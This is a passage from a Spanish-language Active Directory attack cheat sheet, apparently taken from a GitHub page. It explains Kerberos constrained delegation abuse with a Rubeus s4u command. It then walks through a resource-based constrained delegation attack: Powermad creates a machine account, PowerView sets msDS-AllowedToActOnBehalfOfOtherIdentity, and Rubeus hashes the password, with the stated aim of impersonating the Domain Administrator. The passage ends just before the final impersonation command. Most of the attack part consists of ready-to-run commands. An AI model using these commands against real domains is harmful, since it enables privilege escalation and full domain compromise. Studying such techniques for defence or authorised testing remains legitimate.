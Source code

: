 _ALTERNATIVE:_
Usando Rubeus:

```powershell
Rubeus.exe s4u /user:<NombreDeUsuario> /rc4:<ContraseñaHashedNTLMDelUsuario> /impersonateuser:<UsuarioParaImpersonar> /msdsspn:"<SPN Del Servicio>" /altservice:<Opcional> /ptt
```

¡Ahora podemos acceder al servicio como el usuario suplantado!

:triangular_flag_on_post: **¿Qué sucede si solo tenemos derechos de delegación para un SPN específico? (p. ej., TIME):**

En este caso, aún podemos abusar de una función de Kerberos llamada "servicio alternativo". Esto nos permite solicitar tickets TGS para otros servicios "alternativos" y no solo para el que tenemos derechos. Esto nos da la posibilidad de solicitar tickets válidos para cualquier servicio que queramos que el host admita, lo que nos otorga acceso total a la máquina de destino.

### Delegación Restringida Basada en Recursos

_¿QUÉ ES DIS?: \
TL;DR \
Si tenemos privilegios GenericALL/GenericWrite en un objeto de cuenta de máquina de un dominio, podemos abusar de ellos y suplantar la identidad de cualquier usuario del dominio. Por ejemplo, podemos suplantar la identidad del Administrador del Dominio y tener acceso total._

Herramientas que usaremos:

- [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
- [Powermad](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus](https://github.com/GhostPack/Rubeus)

Primero, debemos ingresar el contexto de seguridad de la cuenta de usuario/máquina que tiene los privilegios sobre el objeto. Si se trata de una cuenta de usuario, podemos usar Pass the Hash, RDP, PSCredentials, etc.

Ejemplo de explotación:

```powershell
#Importar Powermad y usarlo para crear una nueva CUENTA DE MÁQUINA
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Importar PowerView y obtener el SID de la nueva cuenta de máquina
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Luego, usando el SID, crearemos una ACE para la nueva cuenta de equipo usando un descriptor de seguridad sin procesar:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

#A continuación, necesitamos configurar el descriptor de seguridad en el campo msDS-AllowedToActOnBehalfOfOtherIdentity de la cuenta de equipo que vamos a controlar, nuevamente usando PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#Después, necesitamos obtener el hash RC4 de la contraseña de la nueva cuenta de la máquina usando Rubeus
Rubeus.exe hash /password:'p@ssword!'

#Para este ejemplo, suplantaremos al administrador del dominio en el servicio CIF del equipo objetivo usando Rubeus:
```